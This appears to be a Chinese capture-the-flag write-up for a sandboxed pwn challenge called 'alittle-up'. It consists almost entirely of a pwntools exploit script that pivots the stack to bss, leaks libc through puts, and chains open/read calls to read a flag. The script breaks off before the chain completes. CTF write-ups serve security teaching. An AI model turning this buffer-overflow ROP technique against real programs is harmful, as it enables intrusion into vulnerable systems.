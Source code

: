 ‍

#### alittle-up

[![](assets/1701606597-b274ff1d4dddd310977f2691b6c310af.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170338-0822b9c0-845f-1.png)

相较前一题加了个沙盒

exp：

```plain
bss = 0x601060 -0x60 +0x400
li(hex(bss))

main = 0x400790
read = 0x4007B1

rdi = 0x400833
ret = 0x040053e

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

p.recv(0x13)

pl = b'a'*0x100+p64(bss)+p64(read) #1
p.send(pl)

pl = b'a'*0x100+p64(bss+0x100)+p64(read) #2
p.send(pl)

pl = p64(bss+0x110)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main) #3
p.send(pl)

libc_base = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-libc.sym['puts']
li(hex(libc_base))

open_addr = libc_base + libc.sym['open']
read_addr = libc_base + libc.sym['read']
puts_addr = libc_base + libc.sym['puts']


pl = b'a'*0x100+p64(bss+0x120)+p64(read) #4
p.send(pl)

rsi_r15 = 0x400831

pl = p64(bss+0x130)+p64(rdi)+p64(0)+p64(rsi_r15)+p64(0x601200)+p64(0x40)+p64(read_addr)+p64(main) #5
p.send(pl)
pause()
p.send('flag')

p.recv()
pl = b'a'*0x100+p64(bss+0x300)+p64(read) #6
p.send(pl)
pl = b'a'*0x100+p64(bss+0x400)+p64(read) #7
```